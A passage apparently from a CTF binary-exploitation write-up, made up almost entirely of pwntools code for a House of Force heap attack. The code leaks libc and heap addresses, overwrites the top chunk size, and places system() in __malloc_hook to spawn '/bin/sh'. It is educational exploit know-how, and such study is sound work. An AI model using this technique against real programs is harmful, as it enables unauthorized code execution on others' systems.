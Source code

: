 ```python

# Second malloc to get chunk overlapping target
# Calculate distance to target
target_addr = exe.symbols['target']
log.info(f"Target variable address: {hex(target_addr)}")
top_chunk_addr = heap_address + 0x20
log.info(f"Top chunk address: {hex(top_chunk_addr)}")



dist = (malloc_hook_addr - 0x20) - (heap_address + 0x20)
malloc(str(dist).encode(), b'B'*32)
sleep(1)

# Third malloc to overwrite __malloc_hook
# malloc(b'24', p64(0xdeadbeef))

# system()

system_addr = libc.symbols['system']
log.info(f"system() address: {hex(system_addr)}")

malloc(b'24', p64(system_addr))

# Next find '/bin/sh' string in libc
binsh_address = next(libc.search(b'/bin/sh'))
log.info(f"'/bin/sh' string address: {hex(binsh_address)}")

# Trigger __malloc_hook by calling malloc again which will call system('/bin/sh')
malloc(str(binsh_address).encode(), b'')

io.interactive()
```

If we don't want to use `next(libc.search(b'/bin/sh'))` to find the `"/bin/sh"` string in libc, we can write our own `"/bin/sh\x00"` string during the first allocation and pass its address.


```python
# -- Exploit goes here --

io = start()

puts_address, heap_address = leak_addresses()
log.info(f"Leaked puts address: {hex(puts_address)}")
log.info(f"Leaked heap address: {hex(heap_address)}")

libc.address = puts_address - libc.symbols['puts']
log.info(f"Leaked libc base {hex(libc.address)}")
# Calculate libc base from leaked puts address

malloc_hook_addr = libc.symbols['__malloc_hook']
log.info(f"__malloc_hook address: {hex(malloc_hook_addr)}")

# First malloc to setup top chunk
# malloc(b'24',b'A'*24+p64(0xdeadbeef))
# malloc(b'24',b'A'*24+p64(0xffffffffffffffff))
payload = b'/bin/sh\x00'
payload += b'A' * (24 - len(payload))
payload += p64(0xffffffffffffffff)
malloc(b'24', payload)



```